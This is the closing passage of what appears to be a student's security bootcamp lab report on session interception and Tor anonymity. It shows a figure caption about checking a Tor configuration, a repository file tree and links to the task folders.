
*Figure 2.18 — `tor --verify-config` failing as root and succeeding as debian-tor.*

---

## Repository Contents

All evidence files, screenshots, logs, and this report are published at:
**https://github.com/the-raven-zn/dfcs-bootcamp/tree/main/s10-session-mitm-tor**

```
s10-session-mitm-tor/
├── README.md (this file — full report in Markdown)
├── report.pdf (same report, compiled to PDF)
├── task1-session-interception/
│   ├── commands.md
│   ├── captures/
│   │   └── session_capture.pcapng
│   └── images/ (18 screenshots, see figure references above)
└── task2-anonymity-tor/
    ├── commands.md
    └── images/ (18 screenshots, see figure references above)
```

- Task 1 folder: https://github.com/the-raven-zn/dfcs-bootcamp/tree/main/s10-session-mitm-tor/task1-session-interception
- Task 2 folder: https://github.com/the-raven-zn/dfcs-bootcamp/tree/main/s10-session-mitm-tor/task2-anonymity-tor
